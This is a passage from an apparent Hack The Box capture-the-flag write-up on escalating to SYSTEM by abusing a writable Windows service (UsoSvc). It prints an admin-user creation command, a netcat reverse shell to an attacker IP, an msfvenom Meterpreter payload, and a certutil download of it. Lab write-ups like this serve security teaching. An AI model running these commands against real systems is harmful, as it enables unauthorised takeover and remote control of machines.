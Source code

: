 ```
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
```

I have write access to the `UsoSvc` service so I can change the BinPath and execute anything I want as SYSTEM. The default `Invoke-ServiceAbuse` parameters will simply add a new user with local admin rights.

```
PS C:\ProgramData> Invoke-ServiceAbuse -Name 'UsoSvc'

ServiceAbused Command
------------- -------
UsoSvc        net user john Password123! /add && net localgroup Administrators john /add
```

Instead I can pop a reverse shell using netcat I uploaded earlier.

```
PS C:\ProgramData> Invoke-ServiceAbuse -Name 'UsoSvc' -command 'C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe 10.10.16.9 8888'
```

![](/assets/images/htb-writeup-re/system.png)

I have SYSTEM but I can't read the flag:

```
C:\Users\Administrator\Desktop>icacls root.txt
root.txt NT AUTHORITY\SYSTEM:(I)(F)
         BUILTIN\Administrators:(I)(F)
         RE\Administrator:(I)(F)
         RE\coby:(I)(F)

Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator\Desktop>type root.txt
type root.txt
Access is denied.
```

I also lose my shell after a few seconds because the process doesn't respond to the service manager so it gets terminated.

I'm going to drop a Meterpreter payload on the box, run it as SYSTEM and quickly migrate to a new process so I don't lose the shell:

```
# msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o met.exe LHOST=10.10.16.9 LPORT=4444

C:\Windows\System32\spool\drivers\color>certutil -urlcache -f http://10.10.16.9/met.exe met.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```
